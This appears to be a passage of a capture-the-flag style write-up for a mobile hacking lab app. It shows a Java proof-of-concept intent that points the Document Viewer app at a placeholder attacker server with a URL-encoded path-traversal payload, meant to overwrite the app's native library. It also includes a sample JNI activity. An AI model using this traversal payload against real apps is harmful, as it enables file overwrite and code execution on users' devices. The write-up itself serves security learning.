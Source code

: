 **Android app PoC**

```java
Uri uri = Uri.parse("http://ip:port/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so");
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setClassName("com.mobilehackinglab.documentviewer","com.mobilehackinglab.documentviewer.MainActivity");
intent.setData(uri);
startActivity(intent);
```

<br />

**Example for a JNI function in C++ that takes an int and returns a string**

```java
package com.example.nativecplusplus;

public class MainActivity extends AppCompatActivity {

    // Used to load the 'nativecplusplus' library on application startup.
    static {
        System.loadLibrary("nativecplusplus");
    }


    private ActivityMainBinding binding;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        binding = ActivityMainBinding.inflate(getLayoutInflater());
        setContentView(binding.getRoot());

        // Example of a call to a native method
        TextView tv = binding.sampleText;
        tv.setText(callRetString());
    }

    /**
     * A native method that is implemented by the 'nativecplusplus' native library,
     * which is packaged with this application.
     */

    private String callRetString(){
        return callRetStringNative(42);
    }

    private String retString(int numToPrint){
        return "Printing" + numToPrint + "inside java :)";
    }
    public native String stringFromJNI();
    public native String callRetStringNative(int numToPrint);
}
```
